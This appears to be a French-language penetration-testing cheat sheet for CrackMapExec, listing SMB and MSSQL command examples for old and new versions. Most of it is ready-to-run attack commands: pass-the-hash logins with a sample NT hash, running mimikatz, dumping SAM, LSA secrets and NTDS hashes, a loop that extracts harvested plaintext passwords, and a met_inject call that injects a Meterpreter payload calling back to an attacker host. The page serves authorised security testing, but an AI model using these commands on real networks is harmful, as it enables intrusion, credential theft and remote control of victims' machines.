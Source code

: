 ## crackmapexec

* [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* [https://byt3bl33d3r.github.io/getting-the-goods-with-crackmapexec-part-1.html](https://byt3bl33d3r.github.io/getting-the-goods-with-crackmapexec-part-1.html) et les suivants


### nouvelle version (4)

Il faut préciser le protocole à utiliser.

Exemples :

`crackmapexec smb 192.168.1.1 -d domain.local -u admuser -p 'P@ssw0rd'`
`sudo crackmapexec smb 192.168.5.4 -d domain.local -u admuser -H <lmHash:ntHash> -M mimikatz`
`crackmapexec mssql 192.168.1.1 -d domain.local -u admuser -p 'P@ssw0rd' -q 'SELECT @@version'`
`crackmapexec mssql 192.168.2.3 -d domain.local -u admuser -p 'P@ssw0rd' --port 53757 -q 'SELECT name FROM master..sysdatabases;'`


### one-line sweeties

Extract all clear-text passwords from domain (to fill a wordlist).

```
for f in ~/.cme/workspaces/default/{smb,mssql}.db ; do
    sqlite3 "$f"  <<< 'select password from users where credtype = "plaintext";'
done | sort -u
```



### old releases (2 and 3)

#### recon

`crackmapexec 192.168.0.0/24`

#### exploit

using a password:
`crackmapexec <ipVictime> -d <domain|hostname> -u <username> -p <password> <commande>`
using a hash:
`crackmapexec <ipVictime> -d <domain|hostname> -u <username> -H <lmHash:ntHash> <commande>`

Commandes utiles avec des droits utilisateurs :

* `--users`
* `--sessions` : semble nécessiter des droits admin avec certains systèmes
* `--shares`

Commandes utiles avec des droits administrateurs :

* `--lusers` : logons users
* `--uac`
* `--sam` : base SAM locale
* `--lsa` : secrets LSA (peut contenir des mots de passe en clair)
* `--ntds drsuapi` : Récupère les hashs des comptes d'ordinateurs et d'utilisateurs de l'annuaire AD

Exemples :

`sudo crackmapexec 172.16.32.14 -d . -u Administrateur -H d8496c706d9f540ceef6a253d3dc45a0 -M mimikatz`
`sudo crackmapexec 172.16.32.14 -d . -u Administrateur -H d8496c706d9f540ceef6a253d3dc45a0 -M met_inject -o LHOST=172.16.41.230 LPORT=8443`

